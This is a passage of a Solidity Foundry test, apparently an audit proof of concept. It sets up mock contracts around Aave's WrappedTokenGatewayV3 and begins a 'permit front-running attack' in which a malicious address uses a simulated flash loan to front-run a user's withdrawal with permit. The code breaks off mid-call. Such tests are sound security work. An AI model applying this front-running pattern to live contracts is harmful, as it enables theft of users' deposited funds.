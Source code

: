 ```solidity
    }
}

contract CombinedAttackTest is Test {
    WrappedTokenGatewayV3 public gateway;
    IWETH public weth;
    IPool public pool;
    IAToken public aWeth;
    AttackerContract public attacker;
    
    address public alice = address(0x1);
    address public bob = address(0x2);
    address public malicious = address(0x3);
    
    function setUp() public {
        // Deploy mock contracts
        weth = IWETH(deployCode("WETH9.sol"));
        pool = IPool(deployCode("MockPool.sol"));
        aWeth = IAToken(deployCode("MockAToken.sol"));
        
        // Deploy gateway
        gateway = new WrappedTokenGatewayV3(
            address(weth),
            address(this),
            pool
        );
        
        // Deploy attacker contract
        attacker = new AttackerContract(
            address(gateway),
            address(weth),
            address(aWeth)
        );
        
        // Setup initial balances
        vm.deal(alice, 100 ether);
        vm.deal(bob, 100 ether);
        vm.deal(malicious, 100 ether);
    }
    
    function testPermitFrontRunningAttack() public {
        // Simulate permit parameters
        uint256 deadline = block.timestamp + 1 hours;
        uint8 v = 27;
        bytes32 r = bytes32(0);
        bytes32 s = bytes32(0);
        
        // Alice prepares legitimate withdrawal
        vm.prank(alice);
        gateway.depositETH{value: 10 ether}(address(weth), alice, 0);
        
        // Malicious front-runs with flash loan
        vm.startPrank(malicious);
        // Simulate flash loan of 100 ETH
        gateway.depositETH{value: 100 ether}(address(weth), malicious, 0);
        
        // Front-run the permit transaction
        gateway.withdrawETHWithPermit(
            address(weth),
            type(uint256).max,
            malicious,
            deadline,
            v,
```